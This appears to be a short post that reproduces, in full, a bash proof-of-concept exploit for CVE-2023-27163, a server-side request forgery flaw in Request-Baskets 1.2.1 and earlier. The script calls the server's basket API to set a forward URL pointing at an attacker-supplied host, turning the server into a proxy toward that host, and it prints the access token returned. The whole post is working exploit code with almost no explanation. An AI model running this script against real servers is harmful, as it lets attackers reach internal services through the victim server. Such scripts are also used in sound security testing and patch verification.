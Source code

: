 It is for **CVE-2023-27163** vulnerability.

Script looks like this:

```bash
#!/bin/bash

echo -e "Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163\n";

if [ "$#" -lt 2 ] || [ "$1" = "-h" ] || [ "$1" = "--help" ]; then
    help="Usage: CVE-2023-27163.sh <URL> <TARGET>\n\n";
    help+="This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,\n";
    help+="which will act as a proxy to other services and servers.\n\n";
    help+="Arguments:\n" \
    help+=" URL            main path (/) of the server (eg. http://127.0.0.1:5000/)\n";
    help+=" TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)\n\n";
    help+="More info at https://github.com/entr0pie/CVE-2023-27163.";

    echo -e "$help";
    exit 1;
fi

URL=$1
ATTACKER_SERVER=$2

if [ "${URL: -1}" != "/" ]; then
    URL="$URL/";
fi;

BASKET_NAME=$(LC_ALL=C tr -dc 'a-z' </dev/urandom | head -c "6");

API_URL="$URL""api/baskets/$BASKET_NAME";

PAYLOAD="{\"forward_url\": \"$ATTACKER_SERVER\",\"proxy_response\": true,\"insecure_tls\": false,\"expand_path\": true,\"capacity\": 250}";

echo "> Creating the \"$BASKET_NAME\" proxy basket...";

if ! response=$(curl -s -X POST -H 'Content-Type: application/json' -d "$PAYLOAD" "$API_URL"); then
    echo "> FATAL: Could not properly request $API_URL. Is the server online?";
    exit 1;
fi;

BASKET_URL="$URL$BASKET_NAME";

echo "> Basket created!";
echo "> Accessing $BASKET_URL now makes the server request to $ATTACKER_SERVER.";

if ! jq --help 1>/dev/null; then
    echo "> Response body (Authorization): $response";
else
    echo "> Authorization: $(echo "$response" | jq -r ".token")";
fi;

exit 0;
```
